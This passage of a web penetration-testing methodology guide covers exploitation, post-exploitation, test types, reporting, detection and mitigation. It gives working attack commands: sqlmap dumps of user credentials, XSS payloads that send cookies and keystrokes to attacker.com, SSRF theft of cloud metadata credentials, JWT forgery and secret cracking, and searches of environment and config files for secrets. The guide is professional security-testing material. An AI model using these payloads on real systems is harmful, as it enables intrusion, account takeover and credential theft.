Tag-based: <@base64_encode>payload<@/base64_encode>
Chain: <@urlencode><@base64_encode>payload<@/base64_encode><@/urlencode>
```

#### 4. Scanner Configuration

```
Burp Pro → Scanner → Audit:
  Crawl:
    - Max link depth: 10
    - Max unique locations: 10000
    - Submit forms: Always (use test data)
  
  Audit:
    - Enable all active checks
    - Set insertion points: URL params, body params, headers, cookies, JSON/XML values
    - Custom insertion points via manual Intruder marks
```

#### 5. Useful Burp Keyboard Shortcuts

| Shortcut | Action |
|---|---|
| Ctrl+Shift+R | Send to Repeater |
| Ctrl+Shift+I | Send to Intruder |
| Ctrl+Space | Auto-complete |
| Ctrl+R | Re-issue request (Repeater) |
| Ctrl+Z | Undo edit |
| F | Follow redirect |

---

# Phase 4: Exploitation

> **Confirming vulnerabilities by demonstrating real-world impact**

## 🧠 What Is It?

Exploitation is where discovered vulnerabilities are **actively exploited** to demonstrate their real-world impact. The goal is not just to say "this might be vulnerable" but to **prove it** with working exploit code and evidence of impact (data accessed, account compromised, code executed).

## 💥 Exploitation Step-by-Step

### SQL Injection Exploitation

```bash
# Step 1: Confirm injection point
# Original request: GET /api/users?id=1
# Injected: GET /api/users?id=1'
# If error: likely SQL injectable

# Step 2: Determine injection type
# Boolean-based: id=1 AND 1=1-- (true)  vs  id=1 AND 1=2-- (false)
# Time-based:    id=1; WAITFOR DELAY '0:0:5'--  (SQL Server)
#                id=1 AND SLEEP(5)--  (MySQL)

# Step 3: Automate with sqlmap
sqlmap -u "https://app.acmecorp.com/api/users?id=1" \
  -p id \
  --dbms=mysql \
  --level=5 \
  --risk=3 \
  --batch \
  --dbs \
  -o

# Step 4: Extract data
sqlmap -u "https://app.acmecorp.com/api/users?id=1" \
  -D acmedb \
  -T users \
  -C username,password,email \
  --dump \
  --batch

# Step 5: For POST requests
sqlmap -u "https://app.acmecorp.com/api/login" \
  --data='{"username":"admin","password":"test"}' \
  --headers="Content-Type: application/json" \
  -p username \
  --dbms=postgresql
```

### XSS Exploitation

```javascript
// Step 1: Confirm reflection
// Payload: <script>alert(1)</script>
// If blocked, try: 
// Or: "><svg onload=alert(1)>

// Step 2: Steal session cookie (demonstrate impact)
<script>
fetch('https://attacker.com/steal?c=' + encodeURIComponent(document.cookie))
</script>

// Step 3: Keylogger (show credential theft)
<script>
document.addEventListener('keypress', function(e) {
  fetch('https://attacker.com/keys?k=' + e.key);
});
</script>

// Step 4: DOM XSS — check sink functions
// Dangerous sinks: innerHTML, document.write, eval(), 
//                  setTimeout, setInterval, location.href
// Source + sink = DOM XSS
```

### IDOR / BOLA Exploitation

```bash
# Step 1: Identify object reference
# Example: GET /api/v1/invoices/1337 returns your invoice

# Step 2: Enumerate other users' data
# Burp Intruder: replace 1337 with §1§, wordlist = 1..2000
# Or use ffuf:
ffuf -u https://api.acmecorp.com/api/v1/invoices/FUZZ \
  -w <(seq 1 2000) \
  -H "Authorization: Bearer eyJ..." \
  -mc 200 \
  -o idor_results.json

# Step 3: Document evidence
# Screenshot showing invoice owned by user@victim.com
# accessed by authenticated session of attacker@evil.com
```

### SSRF Exploitation

```bash
# Step 1: Find parameter that fetches a URL
# Example: POST /api/fetch-preview with {"url": "https://example.com"}

# Step 2: Test for SSRF to localhost
curl -s -X POST https://app.acmecorp.com/api/fetch-preview \
  -H "Content-Type: application/json" \
  -d '{"url": "http://127.0.0.1:80/"}'

# Step 3: Probe internal services
# Common internal targets:
# http://169.254.169.254/latest/meta-data/  (AWS metadata)
# http://metadata.google.internal/          (GCP metadata)
# http://127.0.0.1:8080/                    (internal admin)
# http://192.168.1.1/                       (router admin)

# Step 4: AWS metadata — credential theft
curl -s -X POST https://app.acmecorp.com/api/fetch-preview \
  -d '{"url": "http://169.254.169.254/latest/meta-data/iam/security-credentials/"}'
```

### JWT Attacks

```bash
# Step 1: Decode JWT
echo "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9..." | \
  cut -d'.' -f2 | base64 -d 2>/dev/null | python3 -m json.tool

# Step 2: Test "none" algorithm
# Modify header: {"alg":"none","typ":"JWT"}
# Remove signature, keep trailing dot
python3 -c "
import base64, json
header = json.dumps({'alg':'none','typ':'JWT'}).encode()
payload = json.dumps({'sub':'1','role':'admin'}).encode()
h = base64.urlsafe_b64encode(header).rstrip(b'=').decode()
p = base64.urlsafe_b64encode(payload).rstrip(b'=').decode()
print(f'{h}.{p}.')
"

# Step 3: Brute-force HS256 secret
hashcat -a 0 -m 16500 \
  "eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJzdWIiOiIxIn0.SIGNATURE" \
  /usr/share/seclists/Passwords/darkweb2017-top10000.txt

# Step 4: Algorithm confusion (RS256 → HS256)
# Extract public key from /jwks.json
# Sign HS256 token using public key as the HMAC secret
```

## 🛠️ Exploitation Tools

| Tool | Vulnerability Class | Command |
|---|---|---|
| sqlmap | SQL Injection | `sqlmap -u "URL" --batch --dbs` |
| XSStrike | XSS | `xsstrike -u "URL" --crawl` |
| jwt_tool | JWT attacks | `python3 jwt_tool.py [token] -T` |
| ssrfmap | SSRF | `python3 ssrfmap.py -r request.txt -p url` |
| dalfox | XSS scanner | `dalfox url https://target.com` |
| commix | Command injection | `commix --url="URL" --data="param=INJECT"` |
| tplmap | SSTI | `python3 tplmap.py -u "URL?param=INJECT"` |
| Metasploit | Post-exploitation | `msfconsole` |

---

# Phase 5: Post-Exploitation

> **Demonstrating the full blast radius of a successful compromise**

## 🧠 What Is It?

Post-exploitation determines **what an attacker could actually do** after gaining initial access. It answers the critical question: "You're in — now what's the real business impact?"

## 💥 Post-Exploitation Step-by-Step

### After Web Shell / RCE

```bash
# Step 1: System enumeration
id; whoami; uname -a; cat /etc/os-release

# Step 2: Environment variable secrets
printenv | grep -iE "(key|secret|pass|token|api|db|database)"
cat /proc/1/environ | tr '\0' '\n' | grep -iE "(key|secret|pass)"

# Step 3: Internal network discovery
ip route; ifconfig
# Scan internal subnet
for i in {1..254}; do 
  ping -c1 -W1 192.168.1.$i &>/dev/null && echo "192.168.1.$i UP"
done

# Step 4: Database credential extraction
cat .env
cat config/database.yml
find / -name "*.conf" -exec grep -l "password" {} \; 2>/dev/null

# Step 5: Demonstrate data access without bulk exfiltration
# Good: SELECT TOP 3 * FROM users;  -- show sample, not full dump
# Bad: SELECT * FROM users; --dump > /tmp/users.csv  (unnecessary)
```

### Session Hijacking

```bash
# With stolen JWT or cookie, demonstrate account takeover
# In Burp Repeater: replace Authorization header with stolen token
# Show access to victim's account dashboard, PII, financial data

# Document: what data was accessible, what actions could be performed
```

## 🛠️ Post-Exploitation Documentation

For each compromised component, document:
1. **Initial access vector** — how you got in
2. **Privilege level obtained** — user, admin, system
3. **Lateral movement potential** — what other systems are reachable
4. **Data at risk** — types, sensitivity, regulatory classification
5. **Persistence mechanisms** — could attacker maintain access?
6. **Remediation priority** — Critical/High/Medium/Low + CVSS score

---

# Testing Type Comparison

## Black Box vs Grey Box vs White Box

> **Choosing the right testing approach determines realism, depth, and efficiency**

| Dimension | Black Box | Grey Box | White Box |
|---|---|---|---|
| **Information Given** | None — domain name only | Partial — credentials, API docs, some architecture | Full — source code, design docs, admin access, credentials |
| **Time Required** | High (more recon needed) | Medium | Lower per finding (but more findings) |
| **Realism** | Highest — mirrors external attacker | Good — mirrors insider threat / contractor | Lowest — no attacker has source code |
| **Use Case** | External attack simulation, red team | Standard security assessment, compliance | Secure code review, pre-release assurance |
| **Vulnerability Coverage** | Lower (limited by time on recon) | High | Highest (every code path testable) |
| **Pros** | Most realistic attack simulation | Balance of realism and efficiency | Maximum coverage, find deep logic flaws |
| **Cons** | Time-heavy recon, may miss internal flaws | Doesn't fully simulate blind external attacker | Less realistic, can create false assurance |
| **OWASP ASVS Level** | Level 1 (automated + basic manual) | Level 2 (standard) | Level 3 (deep verification) |
| **Typical Duration** | 5–10 days | 5–7 days | 7–14 days |
| **Common Clients** | Mature security orgs, bug bounty | Most enterprises | Development teams, ISVs |

---

# Bug Bounty vs Contracted Penetration Test

| Dimension | Bug Bounty | Contracted Pentest |
|---|---|---|
| **Authorization Scope** | Public program rules (HackerOne, Bugcrowd) | Signed SoW + Authorization Letter |
| **Tester Selection** | Open to all (public) or invited (private) | Single vetted firm or individual |
| **Payment Model** | Per finding (bounty per severity) | Fixed-fee or time & materials |
| **Coverage Guarantee** | No guarantee — testers self-select | Defined scope systematically covered |
| **Reporting Format** | Individual vulnerability reports | Full pentest report with remediation |
| **NDA / Confidentiality** | Usually yes, but varies | Always, formal NDA |
| **Testing Depth** | Variable — depends on tester interest | Defined methodology, WSTG-based |
| **Business Logic Testing** | Rarely covered well | Core focus |
| **Coordination Required** | Low — self-service | High — kick-off, check-ins, debrief |
| **Best For** | Continuous coverage, high-volume surface | Point-in-time deep assessment, compliance |
| **Average Finding** | 1 critical = $5,000–$50,000 (top programs) | $15,000–$60,000 total engagement |
| **Legal Risk** | Higher — ambiguity in scope edges | Very low — explicit authorization |

---

# Time Management in a Pentest

## ⏱️ Time Boxing per Phase

Professional time management is critical — a 5-day engagement is **not** 5 days of random testing. It is a planned allocation:

| Phase | % of Total Time | 5-Day Allocation |
|---|---|---|
| Pre-engagement / setup | 5% | ~2 hours |
| Reconnaissance | 10% | ~4 hours |
| Mapping & enumeration | 15% | ~6 hours |
| Vulnerability discovery | 40% | ~16 hours |
| Exploitation & PoC | 20% | ~8 hours |
| Post-exploitation | 5% | ~2 hours |
| Documentation & reporting | 15% | ~6 hours (+ weekend) |

## 📅 5-Day Engagement Timeline (Example)

| Day | Morning (4h) | Afternoon (4h) | End of Day Output |
|---|---|---|---|
| **Day 1** | Kick-off call, VPN setup, scope review, Burp config, initial recon (subfinder, amass, shodan) | Active recon (nmap, whatweb, sslscan), initial crawl, attack surface document | Completed ASM doc, all subdomains enumerated |
| **Day 2** | Directory brute force (feroxbuster, ffuf), API discovery (kiterunner, swagger), Burp crawl | Authentication testing (WSTG-AUTHN 01–10), session testing (WSTG-SESS 01–09) | Auth & session findings documented |
| **Day 3** | Input validation testing: SQLi, XSS, SSRF, SSTI, Command Injection (WSTG-INPV all) | Authorization testing: IDOR, privilege escalation, Autorize extension sweep | Input/authz findings, PoC screenshots |
| **Day 4** | Business logic testing, CORS, clickjacking, file upload, crypto, config (remaining WSTG) | Exploitation & chaining — confirm all findings, produce working PoCs, post-exploitation scope | All findings confirmed with PoC |
| **Day 5** | Report writing — executive summary, finding details, CVSS scoring | Report review, final screenshots, remediation recommendations, send draft to client | Draft report delivered to client |

### Daily Standup Notes Template

```markdown
## Day [N] Standup — [Date]

**Completed:**
- [X] Subdomain enumeration — found 23 subdomains, 4 with open ports
- [X] Authentication bypass on /admin via WSTG-ATHN-04

**In Progress:**
- [ ] SQL injection testing on all POST parameters (60% done)

**Blockers:**
- WAF blocking sqlmap requests — switching to manual + tamper scripts

**New Findings:**
- CRITICAL: SQL Injection in /api/orders?id= (confirmed dump)
- HIGH: Broken Access Control — /api/admin accessible by normal user

**Tomorrow:**
- Complete input validation sweep
- Start business logic testing
```

---

# PTES — Penetration Testing Execution Standard

> **The industry framework that defines what a complete pentest engagement looks like**

## Phase Overview

The **PTES** (pentest-standard.org) defines 7 phases:



### PTES Phase 1: Pre-Engagement Interactions
- Define scope, goals, timeline, cost
- Legal docs: NDA, SoW, Authorization Letter
- Technical logistics: source IPs, credentials provided, escalation path
- Emergency stop procedure

### PTES Phase 2: Intelligence Gathering
- OSINT: public sources, no target interaction
- Active recon: scanning, enumeration (with authorization)
- Identify technologies, people, processes, and external assets

### PTES Phase 3: Threat Modeling
- Identify what assets matter most to the business
- Map likely attacker personas: external attacker, insider, competitor
- Prioritize testing based on asset value and threat likelihood
- Produces: Threat Model Document, priority test areas

### PTES Phase 4: Vulnerability Analysis
- Combine automated scanning with manual testing
- Correlate findings across phases
- Classify each finding: vulnerability type, severity, attack vector

### PTES Phase 5: Exploitation
- Active exploitation of confirmed vulnerabilities
- Maintain access where scope permits
- Document every exploitation step

### PTES Phase 6: Post-Exploitation
- Value of compromised system: data access, pivot points, persistence
- Clean up artifacts (shells, temp files, created accounts)
- Document scope of potential attacker impact

### PTES Phase 7: Reporting
- **Executive Summary**: Business impact, risk level, key findings
- **Technical Findings**: Each vuln with CVSS, evidence, steps to reproduce
- **Remediation**: Specific, actionable fix instructions per finding
- **Appendices**: Raw tool output, methodology, scope confirmation

---

# Deliverables & Documentation

## During the Engagement

Document **everything** as you go. Never rely on memory.

```bash
# Organize your engagement directory
mkdir -p ~/engagements/acmecorp/{
  01-recon,
  02-mapping,
  03-discovery,
  04-exploitation,
  05-screenshots,
  06-evidence,
  07-report
}

# Recommended tools
# Obsidian / Cherrytree / Notion — note-taking
# Dradis / Plextrac — collaborative pentest reporting platform
# Ghostwriter — open-source pentest report management
```

### Evidence Collection Standards

For each finding, collect:
- **Request/Response pair** (Burp "Copy as curl") 
- **Screenshot** of the vulnerability impact
- **Video** for complex exploitation chains
- **CVSS v3.1 score** calculated manually
- **CWE classification**
- **OWASP Top 10 / WSTG mapping**
- **Steps to reproduce** (exact, numbered)
- **Business impact** narrative

### Finding Template

```markdown
## Finding: SQL Injection in Order ID Parameter

**ID**: ACME-2024-001
**Severity**: Critical
**CVSS v3.1**: 9.8 (AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
**CWE**: CWE-89 (Improper Neutralization of Special Elements in SQL)
**WSTG**: WSTG-INPV-05

### Description
The `id` parameter in the `/api/orders` endpoint is vulnerable to SQL injection.
An unauthenticated attacker can extract the entire database.

### Steps to Reproduce
1. Send the following request to the application:
   ```
   GET /api/orders?id=1' OR '1'='1 HTTP/1.1
   Host: api.acmecorp.com
   ```
2. Observe the response contains all orders in the database
3. Confirm via time-based injection:
   ```
   GET /api/orders?id=1 AND SLEEP(5)-- HTTP/1.1
   ```

### Evidence
[Screenshot: orders_sqli_confirmed.png]
[Burp request/response: orders_sqli_request.xml]

### Business Impact
An unauthenticated attacker can extract all customer records (PII, payment
history), all order data, and potentially execute OS commands via
xp_cmdshell (if SQL Server) or INTO OUTFILE (if MySQL). This represents a
complete confidentiality and integrity failure. GDPR notification may be
required if exploited.

### Remediation
1. Use parameterized queries / prepared statements:
   ```javascript
   // Vulnerable
   db.query(`SELECT * FROM orders WHERE id = ${req.query.id}`)
   
   // Fixed
   db.query('SELECT * FROM orders WHERE id = ?', [req.query.id])
   ```
2. Implement input validation — order IDs should be numeric only
3. Apply principle of least privilege to database user
4. Consider a WAF rule as defense-in-depth (not a substitute for fixing the root cause)
```

## Final Report Structure

```
EXECUTIVE SUMMARY (2 pages)
  - Engagement overview
  - Overall risk rating
  - Top 3 most critical findings (non-technical)
  - Business impact summary
  - Remediation roadmap recommendation

METHODOLOGY (1 page)
  - Testing approach (black/grey/white box)
  - Standards used (OWASP WSTG, PTES)
  - Tools used
  - Scope confirmation

FINDINGS SUMMARY TABLE
  | ID | Title | Severity | CVSS | Status |
  | ACME-001 | SQLi in orders | Critical | 9.8 | Open |
  | ACME-002 | Stored XSS | High | 7.4 | Open |

TECHNICAL FINDINGS (1 page per finding)
  - Description, Steps, Evidence, Impact, Remediation

APPENDICES
  A. Scope and authorization confirmation
  B. WSTG coverage checklist (which tests performed)
  C. Raw tool output
  D. Credential handling and data destruction confirmation
```

---

# 🔍 Detection

Organizations should implement the following to detect active penetration tests AND real attacks:

```
1. WAF Logging: Log all WAF rule matches — injection payloads trigger rules
2. SIEM Correlation:
   - High request rate from single IP (scanning)
   - Sequential ID enumeration (IDOR testing)
   - 40x error spikes (directory brute force)
   - Multiple failed logins (credential testing)
3. Endpoint Detection:
   - Unusual process execution from web server user
   - Outbound connections from web server (SSRF callbacks)
4. Honeytokens:
   - Fake API endpoints that alert when hit
   - Fake admin credentials in config files that alert on use
```

---

# 🛡️ Mitigation (General Web Application)

## Defense-in-Depth Controls

| Vulnerability Class | Primary Control | Secondary Control |
|---|---|---|
| SQL Injection | Parameterized queries | WAF, input validation, least-privilege DB user |
| XSS (Reflected/Stored) | Output encoding (context-aware) | CSP, X-XSS-Protection, HttpOnly cookies |
| CSRF | SameSite=Strict cookies + CSRF tokens | Custom request headers for AJAX |
| IDOR / BOLA | Server-side authorization per request | Randomize object IDs (UUIDs not sequential) |
| Auth bypass | Multi-factor authentication | Account lockout, IP reputation |
| SSRF | Allowlist outbound destinations | Disable internal metadata endpoints, network segmentation |
| Command Injection | Never pass user input to shell | Use language APIs instead of shell commands |
| File Upload RCE | Validate content-type server-side | Store uploads outside webroot, rename files |
| XXE | Disable external entity processing | Use JSON where possible |
| SSTI | Use sandboxed template engines | Avoid user-controlled template strings |
| Broken Access Control | Enforce RBAC server-side | Regular access control reviews, Autorize testing |
| Security Misconfiguration | Automated config baselines | Regular scanning, CIS benchmarks |

---

# 📚 References

## Standards & Frameworks

- **OWASP Web Security Testing Guide v4.2**: https://owasp.org/www-project-web-security-testing-guide/
- **PTES (Penetration Testing Execution Standard)**: http://www.pentest-standard.org/
- **OWASP Application Security Verification Standard v4**: https://owasp.org/www-project-application-security-verification-standard/
- **CVSS v3.1 Calculator**: https://www.first.org/cvss/calculator/3.1
- **CWE Top 25 Most Dangerous Weaknesses**: https://cwe.mitre.org/top25/

## Legal References

- **18 U.S.C. § 1030 (CFAA)**: https://www.law.cornell.edu/uscode/text/18/1030
- **UK Computer Misuse Act 1990**: https://www.legislation.gov.uk/ukpga/1990/18/contents
- **EU NIS2 Directive**: https://eur-lex.europa.eu/legal-content/EN/TXT/?uri=CELEX%3A32022L2555
- **GDPR Article 32**: https://gdpr-info.eu/art-32-gdpr/
- **Budapest Convention on Cybercrime**: https://www.coe.int/en/web/cybercrime/the-budapest-convention

## Tools

- **Burp Suite Pro**: https://portswigger.net/burp/pro
- **OWASP ZAP**: https://www.zaproxy.org/
- **sqlmap**: https://sqlmap.org/
- **Metasploit Framework**: https://www.metasploit.com/
- **SecLists (wordlists)**: https://github.com/danielmiessler/SecLists
- **ffuf**: https://github.com/ffuf/ffuf
- **nuclei**: https://github.com/projectdiscovery/nuclei
- **subfinder**: https://github.com/projectdiscovery/subfinder
- **amass**: https://github.com/owasp-amass/amass

## Learning Resources

- **PortSwigger Web Security Academy** (free labs): https://portswigger.net/web-security
- **HackTricks Web Pentesting**: https://book.hacktricks.xyz/
- **PayloadsAllTheThings**: https://github.com/swisskyrepo/PayloadsAllTheThings
- **OWASP Cheat Sheet Series**: https://cheatsheetseries.owasp.org/

## Certifications for Web Pentesters

| Cert | Issuer | Level | Focus |
|---|---|---|---|
| eWPT | eLearnSecurity | Intermediate | Web application pentesting |
| OSCP | Offensive Security | Intermediate | General offensive security |
| BSCP | PortSwigger | Advanced | Web app (Burp Suite labs) |
| CREST CRT | CREST | Professional | UK standard for pentesters |
| GWAPT | GIAC | Intermediate | Web application penetration testing |
| CEH | EC-Council | Entry | Broad ethical hacking |

---

*Document Version: 1.0 | Framework: OWASP WSTG v4.2 + PTES | Last Updated: 2024*
